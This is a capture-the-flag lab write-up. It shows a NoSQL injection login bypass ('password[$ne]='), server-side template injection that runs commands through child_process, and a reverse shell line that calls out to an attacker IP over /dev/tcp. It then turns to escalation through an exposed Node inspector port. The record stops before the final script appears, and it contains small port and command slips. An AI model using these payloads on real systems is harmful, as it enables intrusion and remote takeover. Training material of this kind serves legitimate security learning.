

# Do not disturb :

Sign's on the door. Room's active. You have access you were never given, and so does he.



after starting the lab machine i got my lab ip and on navigating to it i got a login page :


i tried to get a clue inside the page source code but got nothing ; 

i tried for directory brute forcing and nmap open ports and service version detection but got nothing : 

after that i tried some sql injection payloads for the password field but that was not going to work then in the wappalyzer i found that this application is using this tech stack : 


now sql injection is not working , that means we can try for nosql injection . 

unlike sql injection where queries were normally built by simple string concatenation . nosql queries require nested associative arrays . 

#### Injection methodology :

many server side programming languages allow passing array variables using a special syntax on the query string of an http request . 

#### Bypassing the login form using nosql injection :

an example payload is this : 

```bash
$user = ['$ne'=>'xxxx']
$pass = ['$ne'=>'xxxx']
here ne means 'not equal to' 
the resulting filter would look like this : 
['username'=>['$ne'=>'xxxx'],'password'=>['$ne'=>'yyyy']]
this trick the database into returning any document where the username is
not equal to 'xxxx' and password is not equal to 'yyyy' means this would
return all the documents . 

```

now for this lab we have to use the burpsuite to intercept the login post request and replace this string : from the bottom of the request :


and use this : 

```bash
username=attendant&password[$ne]=testing123
```

then forward the intercepted request and we got the staff console : 


we can enter a confirmation template and can also preview the template : 

The syntax `<%= ... %>` is the standard syntax used by **ERB**, Ruby's templating engine.

if guest = "Ashish”

then the output becomes:

```
Dear Ashish, your Byte Lotus cabana is confirmed.
```

so now we can test for the SSTI ( server side template injection) 

**because we can control** the value being rendered inside a template,

firstly i tried this ssti simple payload : 7*7

```bash
Dear <%= 7 * 7 %>, your Byte Lotus cabana is confirmed.
```

and in the preview field we can see that our payload is working  : 


we can use this rce via process and child process payload for executing commands : 

```bash
<%=global.process.mainModule.require('child_process').execSync('id').toString() %>
```

```bash
<%=global.process.mainModule.require('child_process').execSync('whoami').toString() %>
```

to get a reverse shell : 

```bash
<%= global.process.mainModule.require('child_process').execSync('/bin/bash -c \'sh -i >& /dev/tcp/10.49.133.11/9002 0>&1\'').toString() %>
```

and we got the shell and in this directory we got our user.txt file and the flag inside it : 

```bash
$ cd /home/poolside 
```

### Root flag

when we try to navigate to the user pipelinesvc permission is denied means we have to escalate privileges for this user . 

now we can go to the /opt and there are two services one is poolside and other is pipelinesvc : 

```bash
$ ls -la pipelinesvc
total 12
drwxr-xr-x 3 root        root        4096 Jun 16 09:28 .
drwxr-xr-x 4 root        root        4096 Jun 16 10:10 ..
drwxr-xr-x 2 pipelinesvc pipelinesvc 4096 Jun 16 09:32 telemetry

```

```bash
$ ls -la pipelinesvc/telemetry
total 16
drwxr-xr-x 2 pipelinesvc pipelinesvc 4096 Jun 16 09:32 .
drwxr-xr-x 3 root        root        4096 Jun 16 09:28 ..
-rw-r--r-- 1 pipelinesvc pipelinesvc  229 Jun 16 09:32 package.json
-rw-r--r-- 1 pipelinesvc pipelinesvc  430 Jun 16 09:32 processor.js

```

```bash
$  cat pipelinesvc/telemetry/package.json
{
  "name": "lotus-telemetry",
  "version": "1.0.0",
  "private": true,
  "description": "Byte Lotus occupancy telemetry processor",
  "main": "processor.js",
  "scripts": { "start": "node processor.js" },
  "dependencies": {}
}

```

```bash
$ cat pipelinesvc/telemetry/processor.js
'use strict';

const os = require('os');

let ticks = 0;

function processBatch() {
  ticks += 1;
  const load = os.loadavg()[0].toFixed(2);
  if (ticks % 12 === 0) {
    console.log(`[telemetry] ${new Date().toISOString()} batches=${ticks} load=${load}`);
  }
}

console.log('lotus-telemetry occupancy processor started');
setInterval(processBatch, 5000);

// Keep the event loop busy/alive indefinitely.
process.stdin.resume();
```

the script function batch it runs every 5 seconds and print the timestamp , and this script is printing telemetry information about the cpu  and this telemetry may be using a local port to send output and to check this we can use this linux command  : 

```bash
ss -tln
Show all TCP ports that are currently listening, 
using numeric IP addresses and port numbers.
```


the port 9929 is different may be this is that local port : 

now to abuse this we have to discover the running node process : 

```bash
curl http://127.0.0.1:9229/json/list
```

```bash
$ curl http://127.0.0.1:9229/json/list
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   669  100   669    0     0   553k      0 --:--:-- --:--:-- --:--:--  653k
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/321f24dc-4c1c-48a9-a28f-e2d51a62bb70",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/321f24dc-4c1c-48a9-a28f-e2d51a62bb70",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "321f24dc-4c1c-48a9-a28f-e2d51a62bb70",
  "title": "processor.js",
  "type": "node",
  "url": "file:///opt/pipelinesvc/telemetry/processor.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/321f24dc-4c1c-48a9-a28f-e2d51a62bb70"
} ]

```

we will use this script now : 

```bash
cd /tmp 
cat /tmp/diagnose.js << 'EOF'
then paste the script content 
in the end type EOF 
ls
to run script 
node diagnose.js

```

